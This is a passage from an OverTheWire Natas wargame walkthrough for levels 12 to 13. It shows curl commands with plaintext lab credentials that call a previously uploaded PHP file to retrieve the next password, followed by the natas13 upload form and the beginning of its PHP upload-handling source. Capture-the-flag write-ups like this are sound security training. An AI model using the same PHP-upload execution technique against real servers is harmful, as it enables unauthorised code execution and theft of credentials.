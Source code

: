 ```
abs@MacBookPro OverTheWire % curl "natas12.natas.labs.overthewire.org/upload/9kxythwuv7.php" -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB -s                              
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```


# Level 12 -> 13:

```
abs@MacBookPro OverTheWire % curl "natas13.natas.labs.overthewire.org/" -u natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC -s 
...
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>


<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="460bkiwv0q.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

index-source.html:
```
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
```